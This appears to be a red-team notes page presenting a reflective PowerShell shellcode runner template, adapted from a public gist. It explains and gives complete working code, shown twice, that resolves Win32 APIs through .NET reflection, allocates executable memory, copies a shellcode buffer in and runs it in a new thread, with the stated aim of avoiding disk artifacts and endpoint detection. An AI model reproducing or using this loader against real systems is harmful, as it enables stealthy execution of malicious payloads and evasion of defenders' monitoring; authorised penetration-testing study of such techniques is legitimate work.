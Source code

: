 ```yaml
---
aliases: 
tags:
  - 💣
primary categories:
  - "[[01 - Development]]"
  - "[[01 - Penetration Test]]"
  - "[[01 - Red Team]]"
secondary categories: []
type: Payload
---
```

# [[Reflective PowerShell Shellcode Runner]]

***
## Overview

This reflective PowerShell shellcode runner template provides a stealthier alternative to traditional in-memory payload delivery by avoiding the use of disk-backed artifacts. A common method of executing unmanaged code in PowerShell is through the `Add-Type` cmdlet, which compiles and stores .NET assemblies to disk—a behavior that can trigger detection from endpoint monitoring tools. In contrast, this template performs all operations entirely in memory, eliminating the reliance on Add-Type and minimizing forensic evidence. This payload template is largely based on [`run.ps1`](https://gist.github.com/braaaax/41789bad5d07b8ba236299047a774ffa) by [_braaaax_](https://github.com/braaaax).

The payload follows a three-step reflective injection process, all without relying on `Add-Type` or writing any assemblies to disk:

### 1. Dynamic Win32 API Resolution

Using .NET reflection, the script locates function pointers for native Win32 APIs like `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject` by querying loaded modules and calling `GetProcAddress`:

```powershell
# Function to dynamically resolve the address of a Win32 API function in memory
function LookupFunc {
        Param ($moduleName, $functionName)

		# Get the 'UnsafeNativeMethods' type from the loaded System.dll assembly
        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
				    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }
				    ).GetType('Microsoft.Win32.UnsafeNativeMethods')
	    
	    $tmp=@()

		# Filter out the 'GetProcAddress' method
	    $assem.GetMethods() | ForEach-Object {
		    If($_.Name -eq "GetProcAddress") {$tmp+=$_}
		}

		# Invoke GetProcAddress(GetModuleHandle($moduleName), $functionName)
        return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}
```

### 2. Delegate Construction for API Invocation

Since .NET requires strong typing for API calls, the script uses `System.Reflection.Emit` to define method signatures at runtime. This allows for calling unmanaged APIs using the correct parameter and return types:

```powershell
# Function to dynamically generate a delegate type for a given API function signature
function getDelegateType {
        Param (
            [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
            [Parameter(Position = 1)] [Type] $delType = [Void]
        )

		# Define a dynamic in-memory assembly to hold the delegate type
        $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly(
			        (New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
			        [System.Reflection.Emit.AssemblyBuilderAccess]::Run
			        ).DefineDynamicModule('InMemoryModule', $false).DefineType(
				        'MyDelegateType', 
				        'Class, Public, Sealed, AnsiClass, AutoClass',
				        [System.MulticastDelegate]
				    )

		# Define the constructor required for a delegate type
		$type.DefineConstructor('RTSpecialName, HideBySig, Public',
								[System.Reflection.CallingConventions]::Standard,
								$func).SetImplementationFlags('Runtime, Managed')

		# Define the 'Invoke' method for the delegate (used to call the function)
		$type.DefineMethod('Invoke',
							'Public, HideBySig, NewSlot, Virtual',
							$delType,
							$func).SetImplementationFlags('Runtime, Managed')

		# Create and return the delegate type
        return $type.CreateType()
}
```

### 3. Allocate Memory, Inject Shellcode, and Invoke Execution

With the shellcode hard coded in a byte array, the script allocates *RWX* memory, copies the payload into it, and creates a new thread to execute it. The entire process is conducted using delegates and Win32 APIs resolved in-memory:

```powershell
# Replace this with actual shellcode bytes
[Byte[]] $buf = <shellcode-buffer-byte-array>

# Allocate memory
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll VirtualAlloc),
	(getDelegateType @([IntPtr], [IntPtr], [UInt32], [UInt32]) ([IntPtr]))
	).Invoke([IntPtr]::Zero, $buf.length, 0x3000, 0x40)

# Copy shellcode into allocated memory
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

# Execute shellcode in new thread
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll CreateThread), 
	(getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))
	).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

# Wait for thread to complete
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

***
## File Contents

### `run.ps1`

```powershell
function LookupFunc {
        Param ($moduleName, $functionName)

        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
				    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }
				    ).GetType('Microsoft.Win32.UnsafeNativeMethods')
	    
	    $tmp=@()

	    $assem.GetMethods() | ForEach-Object {
		    If($_.Name -eq "GetProcAddress") {$tmp+=$_}
		}

        return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {
        Param (
            [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
            [Parameter(Position = 1)] [Type] $delType = [Void]
        )

        $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly(
			        (New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
			        [System.Reflection.Emit.AssemblyBuilderAccess]::Run
			        ).DefineDynamicModule('InMemoryModule', $false).DefineType(
				        'MyDelegateType', 
				        'Class, Public, Sealed, AnsiClass, AutoClass',
				        [System.MulticastDelegate]
				    )

		$type.DefineConstructor('RTSpecialName, HideBySig, Public',
								[System.Reflection.CallingConventions]::Standard,
								$func).SetImplementationFlags('Runtime, Managed')

		$type.DefineMethod('Invoke',
							'Public, HideBySig, NewSlot, Virtual',
							$delType,
							$func).SetImplementationFlags('Runtime, Managed')

        return $type.CreateType()
}

[Byte[]] $buf = <shellcode-buffer-byte-array>

$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll VirtualAlloc),
	(getDelegateType @([IntPtr], [IntPtr], [UInt32], [UInt32]) ([IntPtr]))
	).Invoke([IntPtr]::Zero, $buf.length, 0x3000, 0x40)

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll CreateThread), 
	(getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))
	).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

***
## Resources:

| Hyperlink                                                                              | Info             |
| -------------------------------------------------------------------------------------- | ---------------- |
| [_braaax_/`run.ps1`](https://gist.github.com/braaaax/41789bad5d07b8ba236299047a774ffa) | GitHub Gist Page |
***

*Created Date*: <%+tp.file.creation_date("MMMM Do YYYY (HH:mm a)")%>  
*Last Modified Date*: <%+tp.file.last_modified_date("MMMM Do YYYY (HH:mm a)")%>

